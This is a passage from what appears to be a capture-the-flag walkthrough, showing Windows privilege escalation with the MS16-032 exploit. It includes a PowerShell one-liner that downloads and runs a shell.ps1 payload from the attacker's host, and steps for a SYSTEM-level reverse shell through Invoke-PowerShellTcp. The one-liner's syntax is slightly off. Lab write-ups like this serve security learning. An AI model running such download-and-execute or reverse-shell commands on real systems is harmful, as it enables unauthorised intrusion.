


vi MS16032
Before we upload and run our exploit, just like nishang, sherlock and most powershell scripts, we'll have to add the function we want executed to the bottom of the script, for Invoke-MS16032.ps1, it's
Invoke-MS16-032 -Command "iex(new object net.webclient).downloadstring('http://10.10.14.62/8000/shell.ps1')"

We need to make a copy of our Invoke-PowershellTcp.ps1 script so MS16-032 can run it with system privileges to call a reverse shell back to our attack machine

also, tweak the Invoke-PowerShellTcp command to point to a different port number since we're already using port 4444 from our initial foothold